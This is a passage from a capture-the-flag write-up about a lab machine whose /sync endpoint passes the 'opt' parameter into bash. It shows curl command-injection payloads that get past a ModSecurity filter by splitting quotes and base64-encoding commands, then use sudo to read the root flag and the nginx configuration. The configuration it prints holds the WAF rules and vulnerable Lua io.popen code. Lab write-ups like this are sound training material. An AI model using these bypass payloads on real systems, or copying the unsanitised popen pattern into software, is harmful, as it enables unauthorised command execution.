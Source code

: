 ```

root@kali# curl "10.10.10.69/sync?opt=' su''do /home/themiddle/.monit cmd $(echo cat /root/root.txt | base64)'"
Trying to execute Y2F0IC9yb290L3Jvb3QudHh0Cg==
[redacted]
bash: -c: option requires an argument

```

## Other things to pull

Using this access, pull the webserver configuration:

```

root@kali# curl "10.10.10.69/sync?opt=' sudo /home/themiddle/.monit cmd $(echo cat /usr/local/o*/n*/conf/ngin*f| base64)'" > nginx.conf

```

This defines the WAF and the functionality of the application:

```

...
more_clear_headers 'Server';
add_header Server 'SuperWAF';

modsecurity on;
location /sync {
 default_type 'text/plain';

modsecurity_rules '
 SecDefaultAction "phase:1,log,auditlog,deny,status:403"
 SecDefaultAction "phase:2,log,auditlog,deny,status:403"

SecRule REQUEST_HEADERS:User-Agent "^(Mozilla|Opera)" "id:1,phase:2,t:trim,block"

SecRuleEngine On
 SecRule ARGS "@rx [;\(\)\|\`\<\>\&\$\*]" "id:2,phase:2,t:trim,t:urlDecode,block"
 SecRule ARGS "@rx (user\.txt|root\.txt)" "id:3,phase:2,t:trim,t:urlDecode,block"
 SecRule ARGS "@rx (\/.+\s+.*\/)" "id:4,phase:2,t:trim,t:urlDecode,block"
 SecRule ARGS "@rx (\.\.)" "id:5,phase:2,t:trim,t:urlDecode,block"
 SecRule ARGS "@rx (\?s)" "id:6,phase:2,t:trim,t:urlDecode,block"

SecRule ARGS:opt "@pmFromFile /usr/local/openresty/nginx/conf/unixcmd.txt" "id:99,phase:2,t:trim,t:urlDecode
,block"
 ';

content_by_lua_block {
 local opt = 'date'
 if ngx.var.arg_opt then
 opt = ngx.var.arg_opt
 end
-- ngx.say("DEBUG: CMD='/home/themiddle/checksync "..opt.."'; bash -c $CMD 2>&1")

local handle = io.popen("CMD='/home/themiddle/checksync "..opt.."'; bash -c ${CMD} 2>&1")
 local result = handle:read("*a")
 handle:close()
 ngx.say(result)
 }
...

```